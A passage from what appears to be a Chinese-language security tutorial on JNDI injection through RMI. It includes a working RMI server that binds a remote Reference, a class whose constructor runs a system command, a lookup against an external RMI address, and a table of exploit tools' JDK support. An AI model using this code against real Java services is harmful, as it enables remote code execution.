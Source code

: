 
3. **客户端查找远程对象**：目标系统通过`lookup()`方法从RMI注册表获取恶意对象的代理。
   ```java
   Object remoteObject = context.lookup("rmi://47.94.236.117:1099/calc");
   ```


4. **触发恶意代码执行**：目标系统在获取代理对象时，会从`classFactoryLocation`下载恶意类（如`Calc.class`）并实例化，构造方法中的恶意代码（如执行系统命令）被执行。


**完整代码示例**：
```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Reference;
import java.rmi.server.ReferenceWrapper;

public class RMIServer {

    public static void main(String[] args) throws Exception {
        // 1. 创建 RMI 注册表并监听在 1099 端口上
        Registry registry = LocateRegistry.createRegistry(1099);

        // 2. 创建包含恶意类信息的 Reference 对象
        // className: 远程加载时使用的类名
        // classFactory: 要实例化的恶意类名
        // classFactoryLocation: 恶意类的远程地址（HTTP服务器）
        Reference reference = new Reference("Calc", "Calc", "http://localhost/");

        // 3. 将Reference包装为RMI可处理的对象
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);

        // 4. 绑定到RMI注册表，名称为"calc"
        registry.bind("calc", wrapper);
    }
}
```

```java
import java.lang.Runtime;

// 恶意类：构造方法中执行系统命令（打开远程桌面）
public class Calc {
    public Calc() throws Exception{
        Runtime.getRuntime().exec("mstsc");
    }
}
```


### JNDI-Injection & marshalsec 区别：
两者都是JNDI注入利用工具，但对不同JDK版本的支持不同：

| 工具\服务\JDK版本     | JDK 17 | JDK 11 | JDK 8u362 | JDK 8u112 |
| --------------------- | ------ | ------ | --------- | --------- |
| LDAP - marshalsec     | 支持   | 支持   | 支持      | 支持      |
| RMI - marshalsec      | 不支持 | 不支持 | 不支持    | 支持      |
| LDAP - JNDI-Injection | 不支持 | 不支持 | 不支持    | 支持      |
| RMI - JNDI-Injection  | 不支持 | 不支持 | 不支持    | 支持      |
